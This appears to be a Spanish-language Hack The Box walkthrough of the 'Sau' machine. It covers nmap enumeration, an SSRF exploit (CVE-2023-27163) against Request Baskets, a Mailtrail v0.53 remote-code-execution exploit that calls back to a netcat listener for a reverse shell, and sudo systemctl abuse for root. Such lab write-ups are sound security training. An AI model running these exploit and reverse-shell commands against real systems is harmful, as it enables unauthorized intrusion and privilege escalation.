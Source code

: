```yaml
---
title: Sau
parent: Easy
nav_order: 2
---
```


# Walkthrough — Sau (Hack The Box)
{: .fs-9 }

> Walkthrough para la máquina *Sau* de HTB, enfocada en SSRF y explotación de servicios web vulnerables.
{: .fs-6 .fw-300 }

---

## Introducción

**Sau** es una máquina de nivel *Easy* en Hack The Box. La clave está en identificar puertos poco comunes y explotar un SSRF en un servicio vulnerable.

- SO: Linux  
- Dificultad: Easy  
- Herramientas utilizadas: `nmap`, `ffuf`, `python`, `netcat`

---

## 🔎 Enumeración inicial

Realicé un escaneo completo con `nmap`:

```bash
nmap -sC -sV -p- -T4 10.10.11.224
```

![Imagen](/assets/images/sau/01-nmap.png)

---

## 🌐 Acceso al servicio HTTP

Descubrí que el puerto 55555 tiene un servicio web corriendo. Se trata de **Request Baskets**:

![Imagen](/assets/images/sau/02-request-baskets.png)

---

Al crear una nueva “basket”, se generó un token de autenticación:

![Imagen](/assets/images/sau/03-basket-created.png)

---

Y desde ahí se pueden ver las peticiones recibidas:

![Imagen](/assets/images/sau/04-basket-zj31b65.png)

---

## 🧬 Vulnerabilidad SSRF – CVE-2023-27163

Buscando información, encontré una vulnerabilidad SSRF en este servicio:

![Imagen](/assets/images/sau/05-cve-2023-27163-github.png)

---

Ejecuté el exploit para redirigir una petición hacia `127.0.0.1`:

```bash
bash ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80
```

![Imagen](/assets/images/sau/06-cve-exploit-run.png)

---

Esto me reveló que detrás del servicio estaba corriendo una aplicación llamada **Mailtrail**:

![Imagen](/assets/images/sau/07-mailtrail-web.png)

---

## 💥 Explotación de Mailtrail v0.53

Utilicé un exploit público para obtener RCE:

![Imagen](/assets/images/sau/08-mailtrail-exploit-github.png)

---

Preparé un listener con `netcat`:

```bash
nc -lnvp 1234
```

![Imagen](/assets/images/sau/09-nc-listener.png)

---

Y lancé el exploit:

```bash
python3 exploit.py 10.10.14.16 1234 http://10.10.11.224:55555/rapzjz
```

![Imagen](/assets/images/sau/10-run-exploit.png)

---

### 🐚 Shell recibida

![Imagen](/assets/images/sau/11-shell-received.png)

---

Inspeccionando el archivo de configuración de Mailtrail encontré credenciales codificadas (hash SHA256):

![Imagen](/assets/images/sau/12-maltrail-conf.png)

---

## 🏁 Flag de usuario

Navegando al home de `puma`, encontré `user.txt`:

![Imagen](/assets/images/sau/13-user-flag.png)

---

## ⬆️ Escalada de privilegios

Con `sudo -l`, vi que podía ejecutar `systemctl status trail.service` como root sin contraseña:

![Imagen](/assets/images/sau/14-sudo-list.png)

---

Esto me permitió lanzar un shell interactivo como root:

![Imagen](/assets/images/sau/15-systemctl-status.png)

---

## 🏁 Flag de root

Finalmente accedí a la flag `root.txt`:

![Imagen](/assets/images/sau/16-root-flag.png)

---

## ✅ Resumen final

| Acción | Resultado |
|--------|-----------|
| Enumeración | Servicio web en puerto 55555 |
| Explotación | SSRF → Mailtrail v0.53 |
| Acceso | Usuario `puma` |
| Escalada | Sudo abuse en `systemctl` |
| Flags | `user.txt`, `root.txt` ✔️ |

---

**Autor:** [gueco99](https://github.com/gueco99)  
🧠 Hack the Box – *Sau* (Easy)
